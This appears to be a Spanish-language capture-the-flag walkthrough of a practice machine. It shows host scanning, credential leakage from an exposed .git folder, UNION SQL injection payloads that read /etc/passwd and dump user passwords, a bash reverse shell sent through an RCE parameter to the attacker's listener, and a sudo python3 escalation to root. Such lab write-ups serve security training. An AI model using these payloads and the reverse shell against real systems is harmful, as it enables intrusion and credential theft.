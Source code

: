 https://www.youtube.com/watch?v=xYLNxmuH9Sg
# Fase de reconocimiento
## Descubrimiento de Host
```
nmap -sP 10.0.2.0/24
```
![[Pasted image 20240514190739.png]]
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.0.2.3
```
80
22
# Fase de ataque
## SQLI
En el login.php probamos si es vulnerable a SQLI.
Con Burpsuite interceptamos la conexion y probamos.
![[Pasted image 20240514192423.png]]
URLencodeamos
No funciona
## Git
La web contiene un proyecto Github .gitor 
Lo descargamos
```
wget -r http://<ip>/.git
```
Miramos los logs del proyecto git
```
git log
```
Ver los cambios
```
git show <commit>
```
Encontramos usuario y contraseña en texto claro
## SQLI
Modificar la cabecera en el ?id=1 con ' order by 100-- - hasta encontrar la cantidad de columnas
![[Pasted image 20240514193204.png]]
Insertamos la SQLI para visualizar datos. URLencodearlo
1. Ver bases de datos
```
' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
2. Leer datos de la maquina
```
' union select 1,2,load_file("/etc/passwd"),4,5,6 from information_schema.schemata-- -
```
3. Ver las tablas de una BBDD
```
' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='<BBDD>'-- -
```
4. Ver las columnas de un tabla
```
' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='<BBDD>' and table_name='<tabla>'-- -
```
5. Ver contenido de las columnas
```
' union select 1,2,group_concat(user,':',pass),4,5,6 from '<tabla>'-- -
```
Hay usuario y contraseña para SSH
3. Nos conectamos por SSH
```
ssh <user>@<ip>
```
[-] ==pwned!==
# Privilege Escalation
Para ver puertos abiertos
```
netstat -nat
```
Ver donde esta corriendo el servicio
```
ps -faux | grep <puerto>
```

Hacemos Port Forwarding para ver el puerto interno en nuestra maquina

Hay una RCE en la web
```
?cmd=<comando>
```
1. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
2. Mandamos la Reverse Shell
```
?cmd=bash -c "bash -i>& /dev/tcp/<ipA>/<port> 0>&1"
```
[-]
Vemos la contraseña del usuario en le historio de la terminal
```
cat .bash_history
```
Miramos privilegios con la contraseña encontrada
```
sudo -l
```
![[Pasted image 20240514200110.png]]
Lanzamos python3 como root y lanzamos una bash
```
sudo -u root pyhton3
	import os
	os.system("bash")
```
[+] ==pwned!==
